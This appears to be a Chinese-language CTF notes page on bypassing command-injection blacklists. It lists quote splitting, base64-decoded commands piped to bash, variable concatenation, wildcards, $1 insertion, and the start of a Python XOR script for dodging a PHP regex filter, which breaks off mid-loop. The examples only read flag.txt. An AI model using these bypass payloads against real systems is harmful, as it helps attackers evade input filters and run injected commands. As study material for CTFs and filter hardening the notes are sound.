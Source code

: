 我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass



### 编码绕过

#### Base64

```php
echo xxxx|base64 -d|bash
```

1. 使用反引号包含base64解码后的命令

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

2. 将base64解码后的命令通过管道符传递给bash

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```



### 变量拼接

使用shell变量拼接被黑名单限制的关键词

```php
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```



### 通配符绕过

- `?`通配符匹配单个字母
- `*`通配符匹配多个字母
- `[x-x]` or  `{x,x,x,x}`



### $1

```php
ca$1t fl$1ag.t$1xt
```



### 异或脚本php

> 获取于网上的资源

```python
import re

def main():
    contents = ""
    
    # Iterate over the range 0 to 255 for both i and j
    for i in range(256):
        for j in range(256):
            hex_i = f"{i:02x}"  # Convert i to a 2-digit hex
            hex_j = f"{j:02x}"  # Convert j to a 2-digit hex
            
            # Regex pattern to filter out certain characters
            pattern = r'[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;'
            
            # Decode hex values and check against the regex pattern
            if re.search(pattern, bytes.fromhex(hex_i).decode('latin1')) or \
               re.search(pattern, bytes.fromhex(hex_j).decode('latin1')):
```